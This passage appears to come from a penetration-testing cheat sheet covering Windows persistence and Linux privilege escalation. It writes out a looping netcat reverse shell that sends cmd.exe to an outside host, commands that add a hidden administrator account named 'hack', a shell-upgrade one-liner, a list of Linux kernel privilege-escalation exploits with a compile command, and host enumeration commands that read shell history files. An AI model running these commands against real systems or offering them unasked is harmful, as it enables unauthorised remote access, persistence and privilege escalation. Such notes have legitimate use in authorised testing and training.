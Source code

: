 ### Post-Exploitation/Persistence
* Resilient nc.exe shell 
```
@REM echo for /l %%x in (1,1,9999) do (nc.exe 10.11.0.50 4000 -e cmd.exe )>callme.bat
for /l %%x in (1,1,999999) do (c:\temp\nc.exe 10.11.0.50 5000 -e cmd.exe )
   ```
* Add a new user 
 ```
 net user hack potato /add 
 net localgroup administrators hack /add 
 net localgroup "remote desktop users" hack /add
 ```

### Link Dump
* http://www.fuzzysecurity.com/tutorials/16.html
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* https://pentestlab.blog/2017/04/24/windows-kernel-exploits/ (Windows Kernel exploit table by version @ bottom)
* http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation - includes big list of kernel exploits

# Linux

### Important Note: Some kernel exploits won't work without a proper shell
 **Always upgrade shell** `python -c 'import pty; pty.spawn("/bin/bash")'` 

### Kernel Exploits

* ` Kernel 2.6.22 - 3.9 dirtycow (firefart) EID 40839`
* ` Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' EID 18411`
* ` Linux Kernel 2.4.x/2.6.x - 'sock_sendpage()' Local Privilege Escalation EID 9545 (may need to compile with 'gcc -m32 -Wl,  --hash-style=both 9545.c -o 9545')`
* `ReiserFS (Linux Kernel 2.6.34-rc3 / RedHat / Ubuntu 9.10) - 'xattr' Local Privilege Escalation EID 12130`
* `Linux Kernel <= 2.6.36-rc8 - 'RDS Protocol' EID 15285`


### Enumeration
## OS
* `cat /etc/issue` , `cat /etc/*-release`
* `cat /proc/version`
* `uname -a`, `uname -mrs`
* `env`
* `set`
* `mount`
* `rpm -q kernel`
* `dmesg | grep Linux`
* `ls /boot | grep vmlinuz`
* `cat /etc/profile`
* `cat ~/.bash*`
* `mount`, `df -h`
